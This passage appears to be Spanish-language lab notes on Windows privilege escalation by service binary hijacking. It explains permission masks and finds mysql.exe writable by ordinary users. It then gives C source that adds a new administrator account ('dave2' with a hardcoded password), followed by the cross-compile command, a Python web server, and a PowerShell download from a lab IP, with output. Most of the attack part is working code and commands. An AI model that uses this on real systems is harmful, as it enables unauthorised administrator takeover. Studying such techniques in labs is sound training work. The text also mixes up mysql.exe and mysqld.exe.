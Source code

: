 ### Tabla de permisos

|Masks|Permissons|
|--------|-------|
|F |Full access|
|M |Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

> **httpd.exe**: Como miembro del grupo de usuarios integrado, _dave_ solo tiene derechos de lectura y ejecución (RX) en httpd.exe, lo que significa que no podemos reemplazar el archivo con un binario malicioso.
> **mysql.exe**: El resultado muestra que los miembros del grupo **Usuarios** tienen el permiso de Acceso total (F), lo que nos permite escribir y modificar el binario y, por lo tanto, reemplazarlo

4. Creamos un binario en Kali, que usaremos para reemplazar el mysqld.exe original:
```
#include <stdlib.h>
int main ()
{

int i;

i = system ("net user dave2 password123! /add");

i = system ("net localgroup administrators dave2 /add");

return 0;

}
```
5. Compilamos:
- `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`
6. Servimos con Python nuestro _**adduser.exe**_
- `python3 -m http.server 80`
- Lo solicitamos desde el usuario _dave_: `iwr -uri http://192.168.45.173/adduser.exe -Outfile adduser.exe`
```
PS C:\Users\dave> iwr -uri http://192.168.45.173/adduser.exe -Outfile adduser.exe
PS C:\Users\dave> dir


    Directory: C:\Users\dave


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         8/21/2024   7:08 AM                Contacts
d-r---          9/3/2024   1:58 AM                Desktop
d-r---         8/21/2024   7:08 AM                Documents
d-r---         8/27/2024   3:18 AM                Downloads
d-r---         8/21/2024   7:08 AM                Favorites
d-r---         8/21/2024   7:08 AM                Links
d-r---         8/21/2024   7:08 AM                Music
d-r---         6/15/2022   7:58 PM                OneDrive
d-r---         8/21/2024   7:08 AM                Pictures
d-r---         8/21/2024   7:08 AM                Saved Games
d-r---         8/21/2024   7:08 AM                Searches
d-r---         8/21/2024   7:08 AM                Videos
-a----         6/15/2022   3:22 PM           7168 access.exe
```